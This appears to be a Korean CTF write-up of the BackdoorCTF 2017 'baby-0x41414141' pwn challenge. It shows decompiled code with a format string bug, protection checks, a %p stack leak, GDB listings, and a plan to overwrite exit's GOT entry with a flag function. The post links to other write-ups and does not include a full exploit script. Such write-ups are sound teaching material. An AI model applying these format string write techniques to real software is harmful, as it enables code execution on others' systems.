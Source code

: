 ```yaml
---
layout: post
title: '[CTF] backdoor 2017 baby-0x41414141'
date: '2017-10-04 13:00:00 +0900'
categories: ctf
tags: [fsb]
---
```



## A. Write-up

[CTFtime.org / BackdoorCTF 2017 / baby-0x41414141](https://ctftime.org/task/4682)

- [backdoor2017/Baby_0x41414141 at master · ShellCollectingClub/backdoor2017](https://github.com/ShellCollectingClub/backdoor2017/tree/master/Baby_0x41414141)


## B. Basic info



### 1. Code 

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+18h] [ebp-200h]
  char format; // [esp+E0h] [ebp-138h]
  unsigned int v5; // [esp+20Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  puts("Hello baby pwner, whats your name?");
  fflush(stdout);
  fgets(&s, 200, edata);
  fflush(edata);

  sprintf(&format, "Ok cool, soon we will know whether you pwned it or not. Till then Bye %s", &s);
  fflush(stdout);

  printf(&format);  // FSB
  fflush(stdout);

  exit(1);
}
```


### 2. Protection

```
gef)  checksec
[+] checksec for '/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/backdoor/baby_0x41414141/32_new'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```


### 3. Initial execution

```bash
$ ./32_new
Hello baby pwner, whats your name?
AAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Ok cool, soon we will know whether you pwned it or not. Till then Bye AAAA,0x8048914,0xffb2da08,0x1,0xf744d618,0x36e,0xf7453668,0xffb2dcb4,0xffb2da54,0xffb2da50,0x41414141,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025
```



## C. How to exploit

Flag 찍어주는 함수가 있으므로  이 함수로 `eip` setting 하면 될 듯....

```c
int flag(void)
{
  return system("cat flag.txt");
}
```

FSB write를 이용하여 `exit()` GOT 를 `flag()` overwrite 하면 될 듯.

```c
...
  sprintf(&format, "Ok cool, soon we will know whether you pwned it or not. Till then Bye %s", &s);
  fflush(stdout);

  printf(&format);  // FSB
  fflush(stdout);

  exit(1);
}
```



## D. Exploit : FSB basic attack

[BackdoorCTF 2017 - baby0x41414141 : TeamRocketIST - Portuguese CTF Team](https://teamrocketist.github.io/2017/09/25/Pwn-BackdoorCTF-2017-baby0x41414141/)

`exit()` GOT 값을 `flag()` 함수 값으로 변경하여 프로그램 종료 시 `exit()` 시에 `flag()` 함수 호출되도록 exploit 하기.


#### `exit()`

PLT 는 `0x80485f0`, GOT는 `0x804a034`

```
gdb-peda$ x/10i 0x080485F0
   0x80485f0 <exit@plt>:        jmp    DWORD PTR ds:0x804a034
   0x80485f6 <exit@plt+6>:      push   0x50
   0x80485fb <exit@plt+11>:     jmp    0x8048540
   0x8048600:   jmp    DWORD PTR ds:0x8049ffc

gdb-peda$ x/10i 0x804A034
   0x804a034:   test   BYTE PTR [ebp+0x804],0x0
   0x804a03b:   add    BYTE PTR [eax],al
   0x804a03d:   add    BYTE PTR [eax],al
   0x804a03f:   add    BYTE PTR [eax+0x60f7e305],ah
```


#### `flag()` 함수 

```c
gdb-peda$ x/10i 0x0804870B
   0x804870b <_Z4flagv>:        push   ebp
   0x804870c <_Z4flagv+1>:      mov    ebp,esp
   0x804870e <_Z4flagv+3>:      sub    esp,0x8
   0x8048711 <_Z4flagv+6>:      sub    esp,0xc
   0x8048714 <_Z4flagv+9>:      push   0x80488e0
   0x8048719 <_Z4flagv+14>:     call   0x8048570 <system@plt>
   0x804871e <_Z4flagv+19>:     add    esp,0x10
   0x8048721 <_Z4flagv+22>:     nop
   0x8048722 <_Z4flagv+23>:     leave
   0x8048723 <_Z4flagv+24>:     ret
```







## E. Exploit : `libformatstr` 사용 

[hellman/libformatstr: Simplify format string exploitation.](https://github.com/hellman/libformatstr)










